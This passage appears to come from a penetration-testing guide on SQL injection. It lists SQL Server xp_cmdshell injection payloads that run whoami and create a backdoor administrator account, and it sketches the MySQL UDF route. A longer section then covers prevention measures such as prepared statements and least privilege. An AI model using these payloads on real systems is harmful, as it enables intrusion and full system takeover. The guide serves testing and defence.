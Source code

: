 ### Command Execution

* **Explanation**: In some highly permissive configurations, an attacker can execute operating system commands directly through SQL Injection. This is often possible if the database user has elevated privileges and certain dangerous functions are enabled.
* **Payloads (SQL Server with `xp_cmdshell`):**
    * `'; EXEC xp_cmdshell 'whoami'--`
    * `'; EXEC xp_cmdshell 'net user pentester TopSecret123! /add'--`
    * `'; EXEC xp_cmdshell 'net localgroup administrators pentester /add'--`
* **Payloads (MySQL - less direct, often via UDFs or `sys_exec`):**
    * Requires writing malicious shared libraries (`.so` or `.dll`) to the server using `INTO DUMPFILE` and then creating user-defined functions (UDFs) to execute them.
* **Use Case**: Full system compromise, privilege escalation, creating backdoors.

---

## SQL Injection Prevention (Important for Testers to Know)

Understanding prevention methods helps penetration testers identify why a vulnerability exists and how to properly report it.

* **Parameterized Queries/Prepared Statements**: This is the most effective defense. SQL code is defined first, and then parameters are passed separately, ensuring that user input is treated as data, not executable code.
    * *Example (PHP PDO)*:
        ```php
        $stmt = $pdo->prepare('SELECT * FROM users WHERE username = :username AND password = :password');
        $stmt->execute(['username' => $username, 'password' => $password]);
        ```
* **Input Validation**:
    * **Whitelisting**: Only allow known good inputs (e.g., allow only numeric digits for an ID field).
    * **Blacklisting (less secure)**: Filter out known bad characters (e.g., quotes, semicolons). This is prone to bypasses.
    * **Escaping Special Characters**: For cases where parameterized queries can't be used (e.g., dynamic table names), escaping characters relevant to the specific database can help, but it's error-prone.
* **Least Privilege**: Database users should only have the minimum necessary permissions. An application user should not connect as `root` or `sa`. If an application only needs to read data, it shouldn't have `INSERT`, `UPDATE`, or `DELETE` privileges.
* **Web Application Firewalls (WAFs)**: Can detect and block common SQLi patterns, providing an additional layer of defense.
* **Error Handling**: Do not display verbose database error messages to users. Log detailed errors on the server side instead. Generic error messages prevent attackers from gaining valuable information about the database structure.
* **Regular Updates and Patching**: Keep database systems, frameworks, and libraries updated to prevent exploitation of known vulnerabilities.
* **Code Review and Automated Scanning**: Regularly review code for SQLi vulnerabilities and use static (SAST) and dynamic (DAST) analysis tools.